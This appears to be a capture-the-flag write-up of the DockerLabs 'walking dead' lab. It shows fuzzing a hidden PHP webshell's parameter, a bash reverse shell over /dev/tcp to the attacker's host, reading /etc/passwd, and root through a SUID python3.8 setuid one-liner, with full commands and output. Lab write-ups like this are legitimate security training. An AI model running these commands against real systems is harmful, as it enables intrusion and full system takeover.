

# walking dead

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| walking dead | JuanR | easy/facil | dockerlabs |

**Summary:** The walking dead machine was a compact exploitation challenge themed around the popular television series. The web application on port 80 presented a Walking Dead CTF landing page that, upon inspection, hinted at a hidden directory and a concealed PHP webshell. Rather than performing standard directory enumeration, the attack proceeded directly by fuzzing the query parameter of a known hidden webshell path at `/hidden/.shell.php`, using ffuf to identify the correct parameter name. The parameter `cmd` was discovered, and Remote Code Execution was immediately confirmed as `www-data` via a curl request. A bash reverse shell was delivered through the same endpoint, the TTY was stabilised using `script`, and a foothold was established. Filesystem enumeration as `www-data` revealed a `hijack.py` script in the `/home/www-data/` directory that imported `os` and `pty`, along with a custom binary `/usr/local/bin/wwwdata_vuln`. A SUID binary search uncovered `/usr/bin/python3.8` with the SUID bit set, a direct and clean escalation path. A one-liner calling `setuid(0)` and `setgid(0)` via the SUID Python interpreter spawned an immediate root shell, confirmed with `su -`.

---

## Reconnaissance

**1. Machine Deployment**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/walking_dead]
└─$ sudo bash auto_deploy.sh walking_dead.tar 
[sudo] password for ouba: 

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /"""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2. Port Scan**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/walking_dead]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-30 09:20 +0700
Nmap scan report for gatekeeperhr.com (172.17.0.2)
Host is up (0.0000080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0d:09:9d:0f:dc:43:54:cd:39:a9:e2:d6:81:74:40:e8 (RSA)
|   256 09:d0:f6:52:00:3f:21:51:19:b1:c6:7a:f4:ff:21:01 (ECDSA)
|_  256 19:e0:b3:72:bd:e9:1e:8d:4c:c4:fd:1f:da:3f:a5:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: The Walking Dead - CTF
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 92:7A:3F:F4:55:1F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.19 seconds
```

The scan revealed SSH on port 22 and an Apache web server on port 80 titled "The Walking Dead - CTF". The themed web application was the starting point.

---

## Initial Access

### Webshell Discovery and RCE

**3. Inspecting the Web Application**

The web application served a Walking Dead themed CTF page. Visual clues within the page content pointed toward a hidden directory and a concealed PHP webshell file.



**4. Fuzzing the Webshell Parameter**

With the path to the hidden webshell already identified as `/hidden/.shell.php`, ffuf was used to fuzz the query parameter name, filtering out empty responses to isolate the active one.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/walking_dead]
└─$ ffuf -u http://$ip/hidden/.shell.php?FUZZ=id -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.17.0.2/hidden/.shell.php?FUZZ=id
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

cmd                     [Status: 200, Size: 54, Words: 3, Lines: 2, Duration: 86ms]
```

The parameter name `cmd` was identified.

**5. Confirming Remote Code Execution**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/walking_dead]
└─$ curl -s "http://$ip/hidden/.shell.php?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

RCE was confirmed as `www-data`.

### Delivering the Reverse Shell

**6. Starting the Listener and Triggering the Shell**

A netcat listener was started and the reverse shell payload was delivered through the webshell via URL-encoded curl.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/walking_dead]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/walking_dead]
└─$ curl -s --get "http://$ip/hidden/.shell.php" --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/172.17.0.1/4444 0>&1"'
```

**7. Catching the Shell**

```bash
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 33714
bash: cannot set terminal process group (23): Inappropriate ioctl for device
bash: no job control in this shell
www-data@905ad3f46581:/var/www/html/hidden$ 
```

**8. Stabilising the TTY**

```bash
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 33714
bash: cannot set terminal process group (23): Inappropriate ioctl for device
bash: no job control in this shell
www-data@905ad3f46581:/var/www/html/hidden$ which script
which script
/usr/bin/script
www-data@905ad3f46581:/var/www/html/hidden$ script -qc /bin/bash /dev/null
script -qc /bin/bash /dev/null
www-data@905ad3f46581:/var/www/html/hidden$ ^Z
zsh: suspended  nc -lvnp 4444

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/walking_dead]
└─$ stty raw -echo; fg           
[1]  + continued  nc -lvnp 4444

www-data@905ad3f46581:/var/www/html/hidden$ export TERM=xterm ; export SHELL=/bin/bash                 
www-data@905ad3f46581:/var/www/html/hidden$ stty rows 80 cols 130
www-data@905ad3f46581:/var/www/html/hidden$ 
```

A stable TTY shell was obtained as `www-data`.

---

## Privilege Escalation

### SUID python3.8 Binary

**9. Enumerating Users and the www-data Home Directory**

User enumeration via `/etc/passwd` and inspection of `/home` revealed two named accounts (`rick` and `negan`) as well as a dedicated `www-data` home directory containing a notable `hijack.py` script.

```bash
www-data@905ad3f46581:/var/www/html/hidden$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
rick:x:1000:1000::/home/rick:/bin/bash
negan:x:1001:1001::/home/negan:/bin/bash
www-data@905ad3f46581:/var/www/html/hidden$ ls -la /home
total 24
drwxr-xr-x 1 root     root     4096 Feb 11  2025 .
drwxr-xr-x 1 root     root     4096 Jul 30 04:18 ..
drwxr-xr-x 2 negan    negan    4096 Feb 11  2025 negan
drwxr-xr-x 2 rick     rick     4096 Feb 11  2025 rick
drwxr-xr-x 2 www-data www-data 4096 Feb 11  2025 wwdata
drwxr-xr-x 2 www-data www-data 4096 Feb 11  2025 www-data
```

```bash
www-data@905ad3f46581:/home/www-data$ cat hijack.py 
-e #!/usr/bin/env python3
import os
import pty
os.system("/usr/local/bin/wwwdata_vuln")
pty.spawn("/bin/bash")
```

The script called a custom binary `/usr/local/bin/wwwdata_vuln`, suggesting a potential library or PATH hijacking scenario. However, a SUID binary search revealed a more direct route.

**10. Finding SUID Binaries**

```bash
www-data@905ad3f46581:/home/www-data$ find / -type f -perm -4000 -exec ls -la {} \; 2>/dev/null-rwsr-xr-- 1 root messagebus 51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 477672 Jan  2  2024 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 53040 Feb  6  2024 /usr/bin/chsh
-rwsr-xr-x 1 root root 39144 Apr  9  2024 /usr/bin/umount
-rwsr-xr-x 1 root root 67816 Apr  9  2024 /usr/bin/su
-rwsr-xr-x 1 root root 55528 Apr  9  2024 /usr/bin/mount
-rwsr-xr-x 1 root root 44784 Feb  6  2024 /usr/bin/newgrp
-rwsr-xr-x 1 root root 320 Oct 11  2024 /usr/bin/man
-rwsr-xr-x 1 root root 88464 Feb  6  2024 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 68208 Feb  6  2024 /usr/bin/passwd
-rwsr-xr-x 1 root root 85064 Feb  6  2024 /usr/bin/chfn
-rwsr-xr-x 1 root root 5486392 Jan 17  2025 /usr/bin/python3.8
-rwsr-xr-x 1 root root 166056 Apr  4  2023 /usr/bin/sudo
```

`/usr/bin/python3.8` carried the SUID bit, providing a clean and direct privilege escalation path. A Python one-liner calling `os.setuid(0)` and `os.setgid(0)` before spawning `/bin/bash` was sufficient to obtain a real root shell.

**11. Escalating to Root**

```bash
www-data@905ad3f46581:/home/www-data$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.setgid(0);os.system("/bin/bash")'
root@905ad3f46581:/home/www-data# su -
root@905ad3f46581:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
905ad3f46581
```

Full root access was achieved. The `su -` command confirmed a clean root session with all groups resolved correctly.

---

## Attack Chain Summary
1. **Reconnaissance**: Nmap identified SSH on port 22 and Apache on port 80 titled "The Walking Dead - CTF". The themed web application contained visual hints about a hidden directory and a concealed webshell.
2. **Vulnerability Discovery**: The webshell path `/hidden/.shell.php` was known from page hints. ffuf was used to fuzz the query parameter name, identifying `cmd` as the active parameter. A curl request to `?cmd=id` confirmed RCE as `www-data`.
3. **Exploitation**: A URL-encoded bash reverse shell payload was delivered via the `cmd` parameter. The connection was caught with netcat, and the TTY was stabilised using `script -qc /bin/bash /dev/null`.
4. **Internal Enumeration**: Inspection of `/etc/passwd` revealed `rick` and `negan` as interactive accounts. The `/home/www-data/` directory contained `hijack.py`, referencing a custom binary `/usr/local/bin/wwwdata_vuln`. A SUID binary search revealed `/usr/bin/python3.8` with the SUID bit set.
5. **Privilege Escalation**: The SUID Python 3.8 binary was used to call `os.setuid(0)` and `os.setgid(0)`, spawning `/bin/bash` as real root. `su -` confirmed a fully clean root session.
